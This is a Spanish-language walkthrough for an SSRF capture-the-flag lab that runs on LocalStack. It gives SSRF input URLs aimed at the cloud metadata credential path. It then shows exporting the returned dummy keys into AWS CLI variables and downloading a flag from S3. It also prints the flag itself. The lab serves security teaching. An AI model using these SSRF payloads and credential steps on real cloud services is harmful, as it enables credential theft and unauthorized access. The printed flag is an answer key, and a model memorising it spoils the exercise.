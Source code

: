 # ssfr-aws-lab

El laboratorio se ejecuta con 
  ```bash
docker-compose up -d 
  ```
---

### **1. Reconocimiento**

El pentester comienza analizando la aplicación para identificar posibles vulnerabilidades.

#### **Paso 1: Analizar la aplicación**
- Accede a la aplicación en `http://34.51.13.20:8080/`.
- Observa que hay un formulario que permite ingresar una URL y verificar su contenido.

#### **Paso 2: Identificar la vulnerabilidad SSRF**
- Sospecha que la aplicación puede ser vulnerable a **Server-Side Request Forgery (SSRF)** porque toma una URL ingresada por el usuario y hace una solicitud HTTP a esa URL.
- Para confirmar, intenta acceder a recursos internos, como:
  - `http://localhost:8080` (la propia aplicación).
  - `http://127.0.0.1:8080` (alternativa a localhost).
  - `http://34.51.13.20:8080/latest/meta-data/` (el servicio de metadata simulado en la aplicación).

#### **Paso 3: Confirmar el SSRF**
- Ingresa la URL `http://34.51.13.20:8080/latest/meta-data/` en el formulario.
- Si la aplicación devuelve información del servicio de metadata de AWS, confirma que es vulnerable a SSRF.

---

### **2. Explotación**

Una vez confirmada la vulnerabilidad, el pentester explota el SSRF para obtener credenciales de AWS.

#### **Paso 1: Obtener credenciales de AWS**
- Ingresa la URL del servicio de metadata de AWS en el formulario:
  ```
  http://34.51.13.20:8080/latest/meta-data/iam/security-credentials/
  ```
- La aplicación devuelve las credenciales en formato JSON:
  ```json
  {
      "AccessKeyId": "test",
      "SecretAccessKey": "test",
      "Token": "test",
      "Region": "us-east-1"
  }
  ```

#### **Paso 2: Configurar las credenciales**
- Usa las credenciales obtenidas para configurar el entorno de AWS CLI:
  ```bash
  export AWS_ACCESS_KEY_ID=test
  export AWS_SECRET_ACCESS_KEY=test
  export AWS_SESSION_TOKEN=test
  export AWS_DEFAULT_REGION=us-east-1
  ```

---

### **3. Post-Explotación**

Con las credenciales en mano puedes interactúa con los servicios de AWS (LocalStack) para encontrar la bandera.

#### **Paso 1: Listar los buckets de S3**
- Usa el siguiente comando para listar los buckets en S3:
  ```bash
  aws --endpoint-url=http://34.51.13.20:4566 s3 ls
  ```
- Observa que hay un bucket llamado `secret-bucket-challenge`.

#### **Paso 2: Listar los archivos en el bucket**
- Usa el siguiente comando para listar los archivos en el bucket:
  ```bash
  aws --endpoint-url=http://34.51.13.20:4566 s3 ls s3://secret-bucket-challenge/
  ```
- Observa que hay un archivo llamado `flag.txt`.

#### **Paso 3: Descargar la flag**
- Usa el siguiente comando para descargar el archivo `flag.txt`:
  ```bash
  aws --endpoint-url=http://34.51.13.20:4566 s3 cp s3://secret-bucket-challenge/flag.txt .
  ```
- Lee el contenido del archivo:
  ```bash
  cat flag.txt
  ```
- La bandera es:
  ```
  FLAG{Eres_Todo_Un_Pentester_Cloud_By_AHAU}
  ```

---

By M0r0k0
